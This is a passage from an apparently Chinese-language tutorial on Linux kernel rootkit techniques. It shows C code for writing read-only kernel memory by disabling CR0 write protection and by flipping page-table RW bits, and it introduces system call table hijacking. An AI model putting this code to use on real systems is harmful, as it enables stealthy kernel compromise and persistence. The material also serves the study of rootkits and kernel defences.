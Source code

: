 ```
    u64 orig_cr0;
 
    orig_cr0 = nornir_read_cr0();
    nornir_disable_write_protect();
 
    memcpy(dst, src, len);
 
    if ((orig_cr0 >> 16) & 1) {
        nornir_enable_write_protect();
    }
}
```

#### 方法 ③：直接修改内核页表项

操作系统对于内存页读写权限的控制实际上是通过设置页表项中对应的标志位来完成的：

![](https://s2.loli.net/2022/03/15/begX4uJNymUs92a.png)

因此我们也可以**通过直接修改对应页表项的方式完成对只读内存的读写**，下面笔者给出如下示例代码：

```
static __maybe_unused
void nornir_overwrite_romem_by_pgtbl(void *dst, void *src, size_t len)
{
    pte_t *dst_pte;
    pte_t orig_pte_val;
    unsigned int level;
    size_t left;
 
    do {
        dst_pte = lookup_address((unsigned long) dst, &level);
        orig_pte_val.pte = dst_pte->pte;
 
        left = PAGE_SIZE - ((size_t) dst & (PAGE_SIZE - 1));
 
        dst_pte->pte |= _PAGE_RW;
        memcpy(dst, src, left);
 
        dst_pte->pte = orig_pte_val.pte;
 
        dst = (size_t) dst + left;
        src = (size_t) src + left;
        len -= left;
    } while (len > PAGE_SIZE);
}
```

一、查找系统调用表
---------

当进行系统调用时实际上会通过**系统调用表**获取到对应系统调用的函数指针后进行调用（`syscall_nr→syscall_func` 的指针数组），因此我们可以很方便的通过该表获取到不同系统调用的函数地址，**并通过劫持该表以劫持系统调用流程**：
